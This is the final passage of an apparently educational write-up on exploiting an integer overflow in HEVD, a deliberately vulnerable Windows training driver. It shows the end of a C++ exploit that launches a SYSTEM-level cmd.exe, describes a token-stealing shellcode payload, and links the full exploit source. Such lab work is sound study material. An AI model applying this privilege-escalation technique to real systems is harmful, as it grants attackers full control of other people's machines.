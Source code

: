 ```c++

        STARTUPINFO StartupInfo;
        PROCESS_INFORMATION ProcessInformation;

        ZeroMemory(&StartupInfo, sizeof(StartupInfo));
        ZeroMemory(&ProcessInformation, sizeof(ProcessInformation));

        BOOL aCreated;
        aCreated = CreateProcessA("C:\\Windows\\System32\\cmd.exe",
                                  NULL,
                                  NULL,
                                  NULL,
                                  0,
                                  CREATE_NEW_CONSOLE,
                                  NULL,
                                  NULL,
                                  &StartupInfo, &ProcessInformation);
        if(aCreated == FALSE){
            std::cout << "[!] failed to launch process - " << GetLastError() << std::endl;

        }
    } else {
        std::cout << "[!] Failed to send payload to the device driver\n";
    }
    return 0;
}
```

### EOP and a shell

Due to the nature of this kernel-mode driver,  as a low-level user, and unprivileged user. And from a low Integrity process standpoint, we have the ability to communicate with it from user mode. You can now run your compiled exploit in order to obtain system access via a NT Authority command prompt with your stolen access token.

![shell](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/int/hevd-int.png)

### Wrapup

Conclusively,  we were able to conduct a source code analysis of the vulnerable application,  while that if certain circumstances were met, and certain addresses were passed to the application,  you had the ability to bypass the check when data is sent between user and kernel-mode as a buffer. 

We were able to discover an IOCTL  within the kernel-mode driver,  communicate to it and send it a small buffer that triggers the vulnerability,  and finally creating an allocating The Terminator string, which is one of the final aspects of us being able to bypass the check. 

Putting this all together we utilize the same shellcode token stealing payload while adding a cleanup routine to the end of it. This gave us an NT Authority system shell, successfully escalating our privileges on the system from an unprivileged low-level user standpoint, too. full access rights on the system.

The final code on my Github [https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_Interger_Overflow.cpp](https://github.com/FULLSHADE/Windows-Kernel-Exploitation-HEVD/blob/master/HEVD_Interger_Overflow.cpp)
